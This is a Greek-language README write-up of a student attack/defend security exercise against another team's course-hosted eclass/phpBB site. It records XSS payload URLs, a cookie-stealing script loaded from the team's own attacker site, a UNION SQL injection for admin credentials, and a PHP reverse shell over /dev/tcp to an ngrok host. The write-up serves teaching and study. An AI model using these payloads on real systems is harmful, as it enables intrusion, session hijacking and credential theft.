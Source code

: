
# Attacks

## XSS ATTACKS
Στην αρχή της επίθεσης ξεκινήσαμε ψάχνοντας μήπως καταφέρουμε να βρούμε κάποια ευπάθεια (σε πεδίο φόρμας-παράμετρος URL-όνομα αρχείου σε ανέβασμα) 
όπου θα μπορούσαμε να εισάγουμε τον δικό μας κώδικα javascript.
Τα περισσότερα σημεία είχαν ασφαλιστεί καλά. Παρόλα αυτά υπήρξαν 2 βασικές ευπάθειες που εκμεταλλευτήκαμε.
1. Παρατηρήσαμε πως στις περισσότερες σελίδες μπορεί να μην μπορούσε να εκτελεστεί το script που εισάγαμε, παρόλα αυτά μπορούσε να εκτελεστεί όταν
   παρουσιαζόταν η σελίδα που αναφέρει την αποτυχία κάποιου sql ερωτήματος.
Case in point το παρακάτω URL: `http://caesar-salads.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=<script>alert(1)</script>&forum=1`
2. Στις σελίδες που υπάρχει κάποια φόρμα και δίνεται η δυνατότητα στον χρήστη να πληκτρολογήσει εντός του xinha plugin, ενώ αν δοθεί κάποιο <script>
   tag χωρίς την ενεργοποίηση κάποια λειτουργικότητας του plugin ο κώδικας γίνεται
sanitize και δεν εκτελείται πουθενά, στην περίπτωση που ενεργοποιηθεί η λειτουργία μετάβαση σε κώδικα html και εισάγουμε κάποιο script, αυτό εκτελείται
   κανονικότατα.<br>Μπορείτε να το δοκιμάσετε στο παρακάτω url `http://caesar-salads.csec.chatzi.org/modules/phpbb/newtopic.php?forum=1` 
3. Ένα ακόμα url που αποτελεί μια ακόμα πιο απλή περίπτωση XSS είναι στην εγγραφή χρήστη. `http://caesar-salads.csec.chatzi.org/modules/auth/newuser.php?nom_form='><script>alert(1)</script>`

## CSRF ATTACKS
### Δημιουργία evil site.
Αρχικά δημιουργήσαμε το δικό μας evil site http://unbeerables.puppies.chatzi.org/. Με σκοπό να στέλντονται request εν αγνοία του θύματος.<br>
Σελίδες που υλοποίησαμε:<br>
1. puppies1.php. H συγκεκριμένη σελίδσα είχε στόχο να στέλνεται ένα request για την δημιουργεία μιας δημόσιας ανακοίνωσης από τον drunkadmin.
   Η αντίπαλη ομάδα είχε προστατεύσει την συγκεκριμένη φόρμα με αποτέλεσμα να μην περάσει.<br><br>
   <img src="puppies1.png" > 
   <br>
2. puppies2.php. Στόχος την δεύτερης σελίδας που υλοποιήσαμε ήταν να καταφέρουμε να κλέψουμε το cookie του drunkadmin έτσι ώστε να αποκτήσουμε πρόσβαση στον            λογαριασμό του. Για την περάτωση του σκεφτήκαμε να εκμεταλλευτούμε την ευπάθεια που βρήκαμε στην σελίδα http://caesar-                         salads.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=1&forum=1  εισάγωντας στην παράμετρο $topic το script που θέλουμε να εκτελεστεί. Γιαυτό δημιουργήσαμε το     Javascript αρχείο biscuit.js και το δώσαμε ως τιμή στην παράμετρο $topic. `<script src=http://unbeerables.puppies.chatzi.org/biscuit.js></script>`. 
  O σύνδεσμος που στείλαμε με email στον drunkadmin ηταν: ```http://caesar-salads.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=<script src=http://unbeerables.puppies.chatzi.org/biscuit.js></script>&forum=1```
  Πατώντας πάνω του αποθηκευόταν το SESSION cookie του ως παράμετρο στο url και απευθείας ανακατευθυνόταν πίσω στο evil site μας ετσι ώστε μην καταλάβει to attack που είχε δεχτεί. Τέλος, βλέποντας τα logs του site και τα Request που έχουν σταλθεί καταφέραμε και πήραμε το cookie και σπεύσαμε να συνδεθούμε πριν λήξει.Το οποίο και καταφέραμε.<br>
  
  O κώδικας του αρχείου puppies2.php.
  <img src="puppies2.png">
  <br><br>
  O κωδικας του αρχείου biscouit.js.
  
  <img src="biscuit.png">
  

<br>

## SQLi
Αναφορικά με τα sql injections δεν είχαμε τα καλύτερα αποτελέσματα. Στις σελίδες που πειραματιστήκαμε δεν καταφέραμε να έχουμε τα καλύτερα αποτελέσματα αφού φαίνεται είχαν προστατευθεί από τους αμυνόμενους. Παρόλα αυτά το γεγονός ότι πολλές φορές προέκυπτε κάποιο μήνυμα λάθους μας βοήθησε στις υπόλοιπες επιθέσεις που κάναμε. Ένα παράδειγμα προσπάθεις μας να λάβουμε κάποια πληροφορία από την βάση μέσω sql ερωτήματος, ήταν το παρακάτω:
`http://caesar-salads.csec.chatzi.org/modules/agenda/myagenda.php??month=1' union select username,password,null from eclass.user where username='drunkadmin`
Του οποίου σκοπός ήταν να βγεί από το ερώτημα με την χρήση του '1 και να συνδέσει τα αποτελέσματα του ερωτήματος για τον drunkadmin με τον υπόλοιπο πίνακα.


##  File Injections
Τα δύο σημεία στα οποία μπορούμε να ανεβάσουμε αρχεία με σκοπό να τους εισάγουμε κώδικα και να εκτελεστεί, είναι στο ανέβασμα εργασίας και στην
ανταλλαγή αρχείων.<br><br>
Γνωρίζοντας πως τα αρχεία που ανεβάζουμε αποθηκεύονται σε έναν φάκελο με τυχαίο όνομα, μας αρκεί να βρούμε τον φάκελο αυτό, να πλοηγηθούμε στο
αρχείο αυτό με αποτέλεσμα να εκτελεστεί ο κώδικας μας. Η ομάδα caesar-salads με σκοπό να το αποτρέψει αυτό απαγόρευσε γενικά την πλοήγηση στους
διαφόρους φακέλους, με αποτέλεσμα στην προσπάθεια μας να αναζητήσουμε τον τυχαίο αυτό φάκελο σε κάποιον "πατέρα" φάκελο να βλέπουμε 
**403 Forbidden**.<br><br>
Παρόλα αυτά τα μηνύματα λάθους που συναντήσαμε και στις επιθέσεις XSS μας έβαλαν σε σκέψεις. Σκεφτήκαμε πως αν προκαλούσαμε κάποιο λάθος σε κάποιο
query που περιέχει το τυχαίο όνομα του φακέλου που δημιουργείται θα μας το εμφάνιζε όλο το query έχοντας το όνομα του φακέλου και του αρχείου
συμπληρωμένο. Ύστερα από διάφορες προσπάθειες τα καταφέραμε, και όταν πήγαμε να εισάγουμε ένα αρχείο με όνομα `'.txt` είδαμε στην οθόνη μας:
<br><br>
<img src="FileInjection.png">
<br><br>
Στο σημείο αυτό είχαμε βρει τον φάκελο που αποθηκεύονταν τα αρχεία του χρήστη 
`http://caesar-salads.csec.chatzi.org/courses/TMA100/work/609175af2d0a4/`
αλλά και το όνομα με το οποίο έχει αποθηκευθεί η εργασία που υποβάλαμε.
Το μόνο που λείπει είναι να δημιουργήσουμε το κατάλληλο αρχείο που θα εκτελεστεί. Εμείς αποφασίσαμε να δοκιμάσουμε να πάρουμε ένα shell στο μηχάνημα.
Έτσι στο test.php μας βάλαμε τον παρακάτω κώδικα:
```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/8.tcp.ngrok.io/16002 0>&1'")
```
Ο συγκεκριμένος κώδικα χρησιμοποιεί τη συνάρτηση της php exec με σκοπό να δημιουργηθεί ένα διαδραστικό instance του bash, προοθώντας τα αποτελέσματα
σε μία TCP σύνδεση.
(Χρησιμοποιήσαμε το ngrok για να μπορέσουμε να πάρουμε τα δεδομένα μέσω tunneling και να μην χρειάζονται να κάνουμε 
configurations στο τοπικό μας δίκτυο.)

### Αποτελέσματα
Καταφέραμε λοιπόν να έχουμε ένα shell μέσα στο μηχάνημα που είναι hosted η εφαρμογή.
<br><br>
<img src="ReverseShell.png">
<br><br>
Έτσι μπορούσαμε να γράψουμε σε πολλά αρχεία που είχαμε access αλλά είχαμε την δυνατότητα να διαβάσουμε και όλα τα αρχεία συμπεριλαμβανομένου και του 
config file που εμπεριείχε και τον κωδικό του drunkadmin.

### Αποτυχημένη προσπάθεια
Βλέποντας στην ανταλλαγή αρχείων πως τα αρχεία φωτογραφίας και gif άνοιγαν στον browser ενώ αρχεία που μπορεί να περιείχαν κώδικα μας δινόταν αποκληστικά η δυνατότητα να κατεβάσουμε το αρχείο. Με λίγη αναζήτηση είδαμε πως μπορούσαμε να φτιάξουμε ένα gif το οποίο να περιέχει κώδικα php ώστε να εκτελεστεί όταν φορτωθεί. Δυστυχώς όμως δεν καταφέραμε να δημιουργήσουμε σωστά το αρχείο gif με σκοπό κατά την φόρτωση του να προκύπτει μήνυμα λάθους.
